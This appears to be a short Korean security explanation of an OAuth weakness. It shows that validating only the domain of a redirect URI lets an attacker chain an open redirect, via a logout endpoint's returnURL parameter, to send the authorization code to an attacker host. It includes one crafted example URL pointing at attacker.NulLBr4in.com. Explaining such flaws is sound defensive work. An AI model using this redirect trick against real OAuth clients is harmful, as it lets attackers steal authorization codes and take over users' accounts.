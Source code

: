 ```
http://client.co.kr/OAuth/Callback?code=XXXXXXXXXXXXXXXXXXXX 에서 도메인까지만 검증할 경우
http://client.co.kr/logout?returnURL=http%3a%2f%2fattacker.NulLBr4in.com%2fcode%2f 로 변조하게되면
도메인이 동일하여 검증을 우회하고 공격자 서버로 code를 전송합니다.

```

**위 예시처럼 도메인까지만 검증할 경우, code 값에 Query string이 포함되서 공격자 서버로 전달되거나 HTTP 헤더의 Referer를 참고하여, Authorization code 값을 탈취할 수 있습니다.**
